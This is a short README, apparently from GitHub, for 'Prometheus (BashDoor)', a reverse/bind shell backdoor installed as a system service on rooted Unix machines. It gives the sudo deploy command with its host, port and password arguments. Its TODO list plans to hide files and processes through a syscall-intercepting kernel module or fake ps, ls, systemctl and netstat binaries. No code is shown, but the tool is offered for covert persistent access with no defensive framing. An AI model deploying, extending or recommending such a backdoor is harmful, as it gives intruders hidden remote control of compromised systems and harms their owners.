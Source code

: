 # Prometheus (BashDoor)
Prometheus is a reverse/bind shell service backdoor to quickly deploy on rooted unix systems.

deploy.sh, n0sl33p_default and prometheus.service need to be all in the same folder.

Then deploy with:
`sudo ./deploy [bind/reverse] [PORT/HOST] [PASSWORD/PORT] (RETRYTIME if reverse)`

#
### TODO:

-> Add a kernel module to intercept syscalls or make fake "ps", "ls", "systemctl", "netstat" binaries to hide all files and processes

-> Make a nc-less version

-> Improve error-handling, make shell prettier
